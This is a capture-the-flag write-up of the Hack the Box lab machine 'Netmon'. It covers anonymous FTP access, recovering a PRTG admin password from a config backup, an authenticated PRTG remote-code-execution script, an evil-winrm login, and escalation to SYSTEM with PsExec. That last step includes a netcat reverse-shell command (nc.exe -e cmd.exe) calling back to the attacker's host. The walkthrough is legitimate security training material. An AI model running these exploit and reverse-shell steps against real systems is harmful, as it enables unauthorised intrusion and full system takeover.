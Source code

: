 ```yaml
---
layout: post
title: Hack the Box - Netmon
date: 2020-04-05 17:02:22 +0100
description: Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running,and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell.
img: netmon.png
fig-caption: Netmon
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running,and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ sudo nmap -p- -T4  10.129.113.107  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 18:15 GMT
Nmap scan report for 10.129.113.107
Host is up (0.017s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ ftp 10.129.113.107
Connected to 10.129.113.107.
220 Microsoft FTP Service
Name (10.129.113.107:calxus): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
```
When accessing the web server located on port 80 we find a login page for PRTG Network monitor.
## Foothold
While googling for the location of credentials I found a reddit thread on the subject here: https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/ So with access to the file system via FTP I was able to navigate to the directory "C:\ProgramData\Paessler\PRTG Network Monitor". From here there were three configuration files that I copied down and within "PRTG Configuration.old.bak" I was able to see the password.
```
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```
Frustratingly the password didn't work, but as passwords are often only changed by 1 number I tried with 2019 and was able to get in. Searching exploitdb for RCE exploits I could find a script as shown below.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ searchsploit prtg
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution     | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' Stored XSS                    | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service) | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                  | java/webapps/34108.txt
------------------------------------------------------------------------- ---------------------------------
```
Using this a user can be created on the box by grabbing the cookies from the authenticated session to the site
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ ./prtg.sh -u http://10.129.113.107 -c "_ga=GA1.4.1726106620.1615746366; _gid=GA1.4.190225335.1615746366; OCTOPUS1813713946=ezdFQ0RERUNFLTFCQjYtNEI3MC1BMUVDLTI1MzgxMUU1MTM4Q30%3D; _gat=1"
...
 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```
Once that has completed we can connect to the instance using "evil-winrm"
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ evil-winrm -u 'pentest' -p 'P3nT3st!' -i 10.129.113.107

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

PS C:\Users\pentest\Documents> whoami
netmon\pentest
```
## Privilege Escalation
Although we have an administrator user and this is enough to view the flags we can go a step further and gain system. To do this we copy over netcat and PsExec to the box using smb. 
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
```
PS C:\Users\pentest\Documents> copy \\10.10.14.27\kali\PsExec.exe .
PS C:\Users\pentest\Documents> copy \\10.10.14.27\kali\nc.exe .
PS C:\Users\pentest\Documents> PsExec.exe -accepteula
PS C:\Users\pentest\Documents> .\PsExec.exe -i -s C:\Users\pentest\Documents\nc.exe -nv 10.10.14.27 4433 -e cmd.exe
```
After transferring the files and setting up the listener we can run the following command and be greeted with a system shell
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/jerry]
└─$ nc -nlvp 4433                                                                                                        130 ⨯
listening on [any] 4433 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.107] 50475
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```